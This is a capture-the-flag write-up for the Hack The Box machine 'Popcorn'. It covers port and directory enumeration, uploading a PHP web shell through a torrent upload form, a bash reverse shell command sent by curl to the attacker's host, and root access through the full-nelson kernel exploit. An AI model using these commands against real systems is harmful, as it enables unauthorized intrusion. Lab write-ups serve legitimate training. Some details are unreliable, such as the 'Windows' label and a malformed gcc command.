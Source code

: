 # Machine - Medium Windows - Popcorn

IP 10.10.10.6 

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools
- Nmap
- gobuster / dirb / dirbuster
- Burp Suite Community Edition / OWASP ZAP
- NetCat
- linux-exploit-suggester.sh /SearchExploit (OFFSEC exploitDB) / Google

## Enumeration

- Nmap with `nmap -A 10.10.10.6` gives two open ports, port 22 for ssh and 80 for http.
- On port 80 running gobuster with `gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40` gives some links as output. Output shows some links, `/test`, `/index`, `/torrent` etc.
- `/test` page shows `phpinfo` allowed file upload.
- On `/torrent` page we can see sign up and log in option. 


## Exploitation

- After loggin in we can use the upload option. During uploading torrent file, we can modify filename and filecontent to php shell code with burp suite or OWASP ZAP.
- We can goto `/torrent/upload` directory to get our file and simple `curl http://10.10.10.6/torrent/upload/3like1share3folllow3subscribe7.php?test=whoami` will execute command on the server.
- Running netcat client on host with `nc -lvnp 1337` and command `curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "test=bash -c 'bash -i >& /dev/tcp/10.10.14.100/1337 0>&1'"` will give us shell as user `www-data`.
- Now we can simply get `user.txt` as `www-data` for user `george` with command `cat /home/george/user.txt`.
  ```bash
  www-data@popcorn: ls /home
  george
  www-data@popcorn: cat /home/george/user.txt
  userflaglikesharesubscribefollow
  ```

## Priviledge Escalation

- After importing linux-exploit-suggester.sh we can get a lot of priviledge escalation exploits.
- One of them is full-nelson (http://vulnfactory.org/exploits/full-nelson.c). After importing it to the machine, we can compile it with `gcc full-nelson.c -o full-nelson`.
- Then We get root and root flag.
  ```bash
  www-data@popcorn:tmp$ gcc full-nelson.c - exploit
  gcc full-nelson.c - exploit
  www-data@popcorn:tmp$ chmod +x exploit
  chmod +x exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  ./exploit
  id
  uid=0(root) gid=0(root)
  cat /root/root.txt
  rootflaglikesharesubscribefollow
  ```
- Also dirtycow, motd and many other exploits are possible. As the server kernel version is too old.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
